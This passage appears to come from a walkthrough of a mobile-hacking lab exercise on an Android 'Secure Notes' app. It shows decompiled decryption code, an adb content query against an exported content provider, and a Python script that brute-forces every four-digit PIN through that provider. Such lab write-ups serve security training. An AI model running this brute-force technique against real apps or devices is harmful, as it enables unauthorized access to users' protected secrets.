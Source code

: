 ```java
            byte[] decryptedBytes = cipher.doFinal(bArr2);  
            Intrinsics.checkNotNull(decryptedBytes);  
            return new String(decryptedBytes, Charsets.UTF_8);  
        } catch (Exception e) {  
            return null;  
        }  
    }
```
The **decryptSecret()** method contains a `secret` decryption using the provided PIN and returns it as a string. If an error occurs during the decryption process, it returns null.

# Pre-Exploitation

```
Since the com.mobilehackinglab.securenotes.secretprovider is an exported content provider, then let's try to abuse the content://com.mobilehackinglab.securenotes.secretprovider to bruteforce the legitimate PIN. 
```

**Try to direct call the content query with adb**
`$ adb shell "content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin=1111"`
```
No result found.
```

# Exploitation
Create a python script to BruteForce a PIN:
```python
import subprocess
from multiprocessing import Pool
  
# Function to execute the ADB command for a given PIN
def execute_command(pin):
	pin_str = str(pin).zfill(4) # Convert PIN to 4-digit string format
	command = f'adb shell "content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin={pin_str}"'
	try:
		output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT, text=True)
		print(f'PIN {pin_str} found: {output}')
	except subprocess.CalledProcessError as e:
		# Handle command execution errors (e.g., PIN not found)
		pass

if __name__ == "__main__":
	# Number of processes to use (adjust as needed based on CPU cores)
	num_processes = 4

	# PIN range (0000 to 9999)
	pin_range = range(10000)
  
	# Create a pool of processes
	with Pool(num_processes) as pool:
		# Map the execute_command function to the PIN range
		pool.map(execute_command, pin_range)

	print('Bruteforce complete.')
```
